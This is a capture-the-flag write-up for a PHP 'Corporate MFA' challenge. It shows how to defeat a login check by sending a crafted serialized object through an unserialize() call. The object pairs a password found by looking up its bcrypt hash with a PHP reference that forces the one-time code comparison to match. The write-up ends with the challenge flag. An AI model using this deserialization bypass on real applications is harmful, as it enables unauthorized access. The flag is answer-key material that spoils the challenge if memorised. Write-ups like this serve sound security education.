 
## Title: Corporate MFA
**Points:** 71  
**Solves:** 146

### Descriptions: 
The source for this corporate zero-trust multi factor login portal has been leaked! Figure out how to defeat the super-secure one time code. 

You also get a file called `corpmfa.tar.gz` and a link to a website.

### Solution:

The site is written in PHP. After investigating the source code we come to the following conclusions:
- We can send a GET request where the `userdata` parameter is first decoded as
base64 and is then deserialized using the PHP function `unserialize`.
- The unserialized object must pass through 3 checks and then we will get the flag.

The three checks are:

```php
// check 1
$userData->username === 'D0loresH4ze';

// check 2
password_verify($userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq')

// check 3
$userData->_correctValue = random_int(1e10, 1e11 - 1);
(int)$userData->mfa === $userData->_correctValue;
```

To pass the first check we simply use:

```php
$z = new stdClass();
$z->username = "D0loresH4ze";

$y = serialize($z);
var_dump($y);
```

For the second check, we must crack the hash `$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq`. After some quick googling for the hash we find that it comes from the password: `rasmuslerdorf`. ([https://pastebin.com/82giDruh](https://pastebin.com/82giDruh)) Our updated payload is:

```php
$z = new stdClass();
$z->username = "D0loresH4ze";
$z->password = "rasmuslerdorf";

$y = serialize($z);
var_dump($y);
```

And finally the third check, which is the interesting one in my mind. There
doesn't seem to be a way to predict `random_int(1e10, 1e11 - 1)`. Maybe we could
override the `=` operator. After digging in to this I didn't find anything.

Finally I looked into if PHP had anything like pointers. Apparently it has
references which can act as pointers. And the best thing, you can serialize them
and they will retain the reference! ([https://stackoverflow.com/questions/12590734/serializing-a-reference-in-php](https://stackoverflow.com/questions/12590734/serializing-a-reference-in-php))

So the final payload becomes:

```php
$z = new stdClass();
$z->username = "D0loresH4ze";
$z->password = "rasmuslerdorf";
$z->_correctValue = 5; // just to make sure that _correctvalue exists
$z->mfa = &$z->_correctValue;

$y = serialize($z);
var_dump($y);
```

Base64 encoding this and submitting this as the `userdata` parameter gave us the
flag!

**Flag:** midnight{395E160F-4DB8-4D7A-99EF-08E6799741B5} 
